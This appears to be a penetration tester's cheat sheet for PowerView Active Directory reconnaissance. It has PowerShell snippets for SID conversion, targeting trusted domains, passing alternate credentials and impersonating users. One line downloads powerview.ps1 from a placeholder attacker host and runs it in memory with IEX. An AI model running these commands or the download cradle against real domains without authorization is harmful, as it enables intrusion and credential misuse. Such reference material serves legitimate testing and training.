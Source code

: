 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 

## convert SID to Name
```powershell
| ForEach-Object { $_.SecurityIdentifier } | Convert-SidToName 
```

## Convert from SID
```powershell
Convert-ADName -ObjectName <sid>
```

## Convert to SID
```powershell
ConvertTo-SID -Name <name>
```

## load from remote
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/powerview.ps1') | IEX
```

## Target a different domain (Trust)
```powershell
<command> -Domain <dst_domain_fqdn>
```

## Use different credentials (-Credential)
```powershell
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
<command> -Credential $Cred -Domain <dst_domain_fqdn>
```

## Impersonate a user
if running in -sta mode, impersonate another credential a la "runas /netonly"

Invoke-RevertToSelf to leave
```powershell
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
```


## double hop problem
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
klist will return
    Client: backupadm @ legalcorp.local
    Server: academy-aen-ms0$ @
instead of
    Client: backupadm @ legalcorp.local
    Server: krbtgt/legalcorp.local @ legalcorp.local
```
```

